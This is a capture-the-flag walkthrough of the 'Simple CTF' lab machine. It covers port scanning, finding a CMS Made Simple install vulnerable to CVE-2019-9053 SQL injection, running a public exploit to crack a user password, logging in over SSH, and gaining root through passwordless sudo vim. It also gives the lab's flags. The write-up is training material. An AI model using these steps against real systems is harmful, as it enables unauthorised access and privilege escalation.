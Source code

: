 # Simple CTF

## 1 - How many services are running under port 1000?

Let's run nmap:
~~~
$ sudo nmap -sS -sV -A -p- 10.10.195.222

...[SNIP]...

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.35.106
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

...[SNIP]...

~~~

There are `2` services running under port 1000.

## 2 - What is running on the higher port?

On higher port, `ssh` is running on port `2222`.

## 3 - What's the CVE you're using against the application?

Listing directories on the web server with gobuster reveals the presence of a hidden directory (/simple)

~~~
$ gobuster dir -u http://10.10.195.222/ -w /data/src/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.195.222/
[+] Threads:        10
[+] Wordlist:       /data/src/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/07 22:16:31 Starting gobuster
===============================================================
/simple (Status: 301)

...[SNIP]...
~~~

The application hosted behind the http://10.10.195.222/simple/ is a CMS (CMS Made Simple version 2.2.8).

Several vulnerabilities exist but the most relevant one is `CVE-2019-9053` (https://www.cvedetails.com/cve/CVE-2019-9053/).

## 4 - To what kind of vulnerability is the application vulnerable?

This CVE is about a SQL injection, commonly refered to as `sqli`.

## 5 - What's the password?

Let's exploit it. A python exploit is available here: https://www.exploit-db.com/exploits/46635

~~~
$ python exploit.py -u http://10.10.195.222/simple/ --crack -w best110.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
~~~

## 6 - Where can you login with the details obtained?

We may use these credentials to login against ``ssh`` (running on port 2222)

## 7 - What's the user flag?

~~~
$ sshpass -p "secret" ssh mitch@10.10.195.222 -p 2222 cat user.txt
G00d j0b, keep up!
~~~

## 8 - Is there any other user in the home directory? What's its name?

We find another user (`sunbath`) in the `/home` directory:
~~~
$ ls -l /home
total 8
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
~~~

## 9 - What can you leverage to spawn a privileged shell?

When we connect, it looks like we have a customized shell (e.g. no TAB completion). It's easy to bypass it by running:

~~~
$ /bin/bash
~~~

Now we have a real shell! Let's see if we have sudo access:

~~~
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
~~~

So vim can be executed as root with no password.

~~~
mitch@Machine:/home$ sudo vim
~~~

Now in vim, type `:shell` and `ENTER`. You now have a shell with `root`.

## 10 - What's the root flag?

~~~
root@Machine:/home# cd /root/
root@Machine:/root# cat root.txt 
W3ll d0n3. You made it!
~~~
